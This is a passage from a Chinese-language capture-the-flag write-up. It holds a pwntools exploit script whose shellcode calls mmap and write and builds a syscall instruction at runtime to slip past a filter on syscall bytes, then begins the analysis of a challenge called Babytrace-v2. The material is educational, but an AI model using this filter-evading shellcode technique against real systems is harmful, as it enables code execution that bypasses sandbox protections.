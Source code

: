 ```python

    mov r8, rax
    mov r9, 0
    mov r10, 2
    mov rdx, 7
    mov rsi, 0x1000
    mov rdi, 0x20000
    mov rax, 9
    syscall				// mmap()

    mov rdx, 0x100
    mov rsi, 0x20000
    mov rdi, 1
    mov rax, 1			// write()
    
    mov r8, 0x0500		// 0f 05 小端序需要 0x050f = 0x0500 + 0x1 x 0xf
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    mov r9, 0x100b4
    mov [r9], r8	   // 构造 syscall ，正好在所有汇编语句后，即 0x100b4
    '''
)

dbg()

io.send(shellcode)

############################################

io.interactive()
```

### 3. Babytrace-v2

#### 3.1 分析

首先先看一眼题目的保护，保护全开，不免了又是一道花哨题
